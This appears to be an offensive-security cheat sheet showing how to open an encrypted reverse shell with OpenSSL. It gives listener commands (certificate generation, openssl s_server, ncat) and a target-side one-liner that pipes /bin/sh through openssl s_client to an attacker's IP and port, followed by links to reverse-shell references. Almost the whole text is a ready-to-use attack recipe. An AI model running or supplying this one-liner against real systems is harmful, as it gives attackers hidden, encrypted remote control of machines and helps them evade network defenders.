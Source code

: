 # OpenSSL

## 06 - Generate a TLS certificate to encrypt the network traffic

- Listener

`user@pentestos:~$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes`

`user@pentestos:~$ openssl s_server -quiet -key key.pem -cert cert.pem -port <PORT>`

`user@pentestos:~$ ncat --ssl -vv -l -p <PORT>`

- Target

`$ mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <IP>:<PORT> > /tmp/s; rm /tmp/s`

---
## References

- [Shells Linux](https://book.hacktricks.xyz/shells/shells/linux)

- [One-Lin3r](https://github.com/D4Vinci/One-Lin3r)

- [Rio Asmara Suryadi: OpenSSL for Reverse Shell](https://rioasmara.com/2020/06/22/openssl-for-reverse-shell/)

- [Day 43 Reverse Shell with OpenSSL](https://int0x33.medium.com/day-43-reverse-shell-with-openssl-1ee2574aa998)

- [Detecting and Investigating OpenSSL Backdoors on Linux](https://www.sandflysecurity.com/blog/detecting-and-investigating-openssl-backdoors-on-linux/)